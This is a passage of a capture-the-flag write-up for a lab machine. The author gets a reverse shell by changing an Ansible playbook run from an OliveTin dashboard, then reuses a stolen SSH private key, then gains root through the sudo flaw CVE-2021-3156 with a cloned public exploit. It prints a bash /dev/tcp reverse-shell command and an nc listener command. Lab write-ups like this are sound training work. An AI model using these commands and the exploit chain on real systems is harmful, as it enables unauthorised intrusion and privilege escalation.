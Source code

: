 **First Flag** can be found at
`http://$IP:3000/samarium/ansible/raw/commit/8be5b40d15cfdfd8996e1bb13bdf416eb249bdb0/flag.txt`

On port 1337 we find a `OliveTin` page where we can run the `playbook.yaml`
file. This means that we can replace the command with something like a revshell
and then run the script from the dashboard.

For the revshell I have used <https://www.revshells.com/>. I have chosen the
first one (obviously) and wrapped it with `bash -c`.

```yaml
command: bash -c "bash -i >& /dev/tcp/{YOUR_HOST_IP}/{YOUR_PORT} 0>&1"
```

After we modify the line that runs the command with our new evil command, we
have to start a nc listener on the host.

```console
nc -lvnp {YOUR_PORT}
```

After we have a listener ready we can go to the dashboard and click on `Run
Ansible Playbook`. Wait a few seconds and we should have a reverse shell into
the target machine.

**Second Flag** can be found at `/home/bismuth/flag2.txt`

Next we can use the `.ssh/id_rsa` key to connect with ssh to avoid using the
revshell. Just copy paste the content of id_rsa on host and do a `chmod 600
id_rsa` to be able to use it. Then you can `ssh -i id_rsa bismuth@$IP` to
connect to a better shell.

Next we can use linpeas to try and find some vulnerabilities, while also
looking around the system. Something that I have notices was that the sudo
version is vulnerable to CVE-2021-3156. There is one video from liveoverflow I
saw on the topic <https://www.youtube.com/watch?v=TLa2VqcGGEQ> (from two years
ago 😮). And we can be script kiddies and clone
<https://github.com/teamtopkarl/CVE-2021-3156/tree/main> for a quick and easy
exploit.

I have cloned the repo, then started a http server and send each file to the
target (The important files are: hax.c, lib.c and Makefile). The target has gcc
so you can build the exploit there. With the files copied over to the target I
ran `make` and `./sudo-hax-me-a-sandwich 0` and got access as root.

**Final Flag** can be found at `/root/flag3.txt`

# Conclusion

This felt like a good CTF for practicing more on web services that work with
each other. Usually I don't like CTFs related to stego, but this one did a good
job at making use of images. Altough I don't think anyone would store
information in the image metadata, right? 😅
